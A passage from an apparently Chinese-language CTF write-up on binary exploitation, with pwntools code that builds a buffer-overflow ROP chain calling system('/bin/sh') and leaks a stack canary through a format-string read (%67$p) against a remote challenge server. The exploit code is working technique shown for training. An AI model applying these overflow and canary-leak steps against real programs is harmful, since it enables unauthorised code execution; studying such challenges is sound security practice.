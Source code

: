 最后就是调用准备好的system！这里也需要给system提供一下参数

同上面ROPgadget的方法，把bin_bash的地址放到rdi里

```python
payload = (b'A'* (88+8+8) +
           p64(0x0401233) + p64(bin_bash) +
           p64(system_addr+27) + p64(0x040117A))
p.sendline(payload)

p.interactive()
```

### 2.2 金丝雀

> 程序逻辑是 input name > output name > input buf
> 
> 和上一题的不同就是
> 
> Stack:      Canary found

核心就是位于rbp-8位置的canary校验

程序只要启动这个值就不会变了，所以把它输出出来，之后的payload这个位置就放这个值就好

输出需要动态调试一下，因为输出时的栈不是main时候的栈

可以先找到main时候的esp需要多少，然后+上esp到canary的数量就好了

总之这道题是第67个指针对应了canary

```python
elf = ELF("----------/xiaoniao")
libc = ELF("------------/libc.so.6")
write_plt = elf.plt['puts']
print(hex(write_plt))
write_got = elf.got['puts']
print(hex(write_got))

p = remote('node9.anna.nssctf.cn', 20348)

payload0 = b'%67$p\n'
p.sendline(payload0)
```

接下来会输出刚刚的内容，因为我们直接保存canary之后用

```python
line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[1]", line, ":", hex_string)

line = p.recvline()
canary= int(line,16)
print("[2]", line, ":", format(canary, 'x'))

line = p.recvline()  # 接收一行数据
hex_string = line.hex()
print("[3]", line, ":", hex_string)
```

